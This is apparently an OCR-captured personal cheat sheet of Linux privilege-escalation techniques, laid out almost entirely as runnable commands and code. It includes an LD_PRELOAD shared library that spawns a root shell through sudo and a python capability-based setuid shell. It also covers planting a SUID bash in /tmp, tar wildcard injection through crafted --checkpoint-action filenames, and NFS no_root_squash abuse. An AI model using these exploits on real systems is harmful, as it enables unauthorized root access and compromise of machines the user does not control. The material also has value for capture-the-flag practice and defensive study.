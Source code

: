 ```dirsearch -u <url>```
    void _init(){
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
    }

compile it with

    gcc -fPIC -shared -o shell.so shell.c -nostartfiles

start it with

    sudo LD_PRELOAD=/home/USER/shell.so <something that can be executed as sudo e.g. apache2>

*FTP push file*

    ftp-upload -h {HOST} -u {USERNAME} --password {PASSWORD} -d {SERVER_DIRECTORY} {FILE_TO_UPLOAD}

*Capabilities*
Get a list of programs that are allowed to be executed as root by the current user.
Only works if +ep is present. 

    getcap -r / 2>/dev/null

Result should be something like this:

    /usr/bin/python = cap_setuid+ed

Get root with python

    python -c 'import os; os.setuid(0); os.system("/bin/bash")'

*Create Root Bash*

    echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash'
    For execution:
    /tmp/bash -p

*Use tar when wildcard is in use*

    echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > target_path/shell.sh
    chmod +x shell.sh
    touch /home/andre/backup/--checkpoint=1
    touch /home/andre/backup/--checkpoint-action=exec=sh\ shell.sh

When bash shows up

    /tmp/bash -p

*NFS Mounting*

it's based on root squash 

    cat /etc/exports

only works if something shows here with "no_root_squash"

    showmount -e <ip>
    mkdir /tmp/mountme
    mount -o rw,vers=2 <target_ip>:/<mountable_folder> /tmp/mountme

move over something like shell.c and gcc it + chmod +s it
```